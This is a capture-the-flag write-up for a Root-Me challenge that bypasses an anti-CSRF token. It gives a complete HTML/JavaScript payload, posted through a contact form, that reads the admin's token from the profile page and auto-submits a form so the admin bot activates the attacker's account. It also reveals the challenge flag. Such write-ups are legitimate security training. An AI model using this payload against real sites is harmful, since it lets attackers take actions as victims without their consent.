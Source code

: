 # CSRF - token bypass

**Point**: 45 Points

## Solution:

This is a  CSRF vulnerability with adding 1 secure layer - **CSRF token** . Get in the page, we see a form: 

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159601753-f08b4ef7-75f1-43b3-8b28-3b0c8e0a5aea.png" ></p>

Before "Login", we have to register. Move to "Register" and create an account. For example, in my case, username is `khangtictoc` and password is `123`

Log in this account. Move to "Private" 

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159602721-0d988354-cb0f-43bd-ba64-49e8a20feea5.png" ></p>


This section is for activated account. So we could reach that via sending a malicious HTML content to "Contact". 

But how do we achieve this action ? In "Profile", there's a **disable** checkbox and a button "Submit". 

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159603119-dc64359d-bb4e-4fb7-bfbd-0114c02b2d94.png" ></p>

Enable the checkbox, in "Dev Tool" (F12) replace `disabled=""` with `checked`. Then click "Submit" button.

```html
<input type="checkbox" name="status" checked>
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159631629-ce07c8ba-5e3f-4b6c-bf37-ed9a7a6b287d.png" ></p>

Only **admin** can do this action. But we could make **administrator** do the activation for us. Move to "Network" section, examine **Request Headers**:

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159632033-7ee73905-fbe4-4313-9815-5ab0901ca2d8.png" ></p>

With **Origin** and **Referer** headers, we use form with POST request to send data to bypass this. But there's is another things we should care for.

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159632330-9b687a4d-36c1-45d5-8399-97d8929bb325.png" ></p>

The form has a token for anti-CSRF. You may be aware that this token is changed for each time we submit or reload a page again. So we can't use old attack because beside **Cookie**, there's one-time-used token that we didn't know from **admin**.  

Our idea is we'll collect the token as soon as our script is loaded in **admin side**; and then submit it with the form. We just have to write some more **Javascript** code do this task. Constructing an auto-submit form. Copy the given form:

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159633736-f00ef5dd-888d-4a4e-ab05-4d2796594167.png" ></p>

Changing `checkbox` as we've done previous. Create payload: 
- Make sure value in **input/type=text** is our **username** 
- Set `action` to "http://challenge01.root-me.org/web-client/ch23/index.php?action=profile" for fixed path, we can "POST" data no matters the place(domain) we are
- Add **javascript code** for auto-submit.
- Put the payload in full **HTML format**. The payload 's contained in `<html></html>` and in `<body></body>`

Let's write a 'gadget' code to receive **admin's token.** View the request in "Network" tab. Our request use `GET` method. There're many measures we can create a `GET` request. [Popular way creating http request in JS!](https://www.freecodecamp.org/news/here-is-the-most-popular-ways-to-make-an-http-request-in-javascript-954ce8c95aaa/)

The most convenient way is using AJAX. ( FYI: AJAX supports many **http verbs** like `GET` `PUT` `POST` , ...)

```javascript

            // You can run line-by-line to debug and see the result in "Console" tab
            // Create a "GET" Request  
            var getRequest = new XMLHttpRequest();

            // Little tricky here ! We should set 3rd parameter to "false" value. It means we turn off "asynchronous". 
            //If not, GET request will run seperately and "tokenAdmin" is created before the token's data from the form return; therefore, "tokenAdmin" returns "null"
            getRequest.open("GET", "http://challenge01.root-me.org/web-client/ch23/index.php?action=profile", false);

            // Send it to server.
            getRequest.send();

            // Use regex to get the token from admin; Our token is a hash having a fixed value of 32 characters (256 bits)
            var tokenAdmin = getRequest.response.match(/[qwertyuiopasdfghjklzxcvbnm1234567890]{32}/)[0];

            // Change the value of token in the form to admin'token for submitting
            document.getElementById('token').value = tokenAdmin;
            // Auto submit the form 
            document.getElementById('profile').submit();

```

Combine with the original form we extracted. Our final payload:

Your email: khangtictoc@gmail.com (arbitrary string)

Comment:

```html
<html>
    <body>
        <form id="profile" action="http://challenge01.root-me.org/web-client/ch23/index.php?action=profile" method="post" enctype="multipart/form-data">
            <div>
            <label>Username:</label>
            <input id="username" type="text" name="username" value="khangtictoc">
            </div>
            <br>		
            <div>
            <label>Status:</label>
            <input id="status" type="checkbox" name="status" checked>
            </div>
            <br>
            <input id="token" type="hidden" name="token" value="">
            <button type="submit">Submit</button>
        </form>
        <script>
            var getRequest = new XMLHttpRequest();
            getRequest.open("GET", "http://challenge01.root-me.org/web-client/ch23/index.php?action=profile", false);
            getRequest.send();

            var tokenAdmin = getRequest.response.match(/[qwertyuiopasdfghjklzxcvbnm1234567890]{32}/)[0];

            document.getElementById('token').value = tokenAdmin;
            document.getElementById('profile').submit();
        </script>
    </body>
</html>
```

Wait for a while for autbot's working. Direct to "Private" section:

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159635785-ca8689b6-8d08-4562-90e8-233a98ed7efe.png" ></p>

**NOTE: The flag says that we should use XSS vulnerability to bypass but i don't know how. So, screw it :))**

Flag: **Byp4ss_CSRF_T0k3n-w1th-XSS**
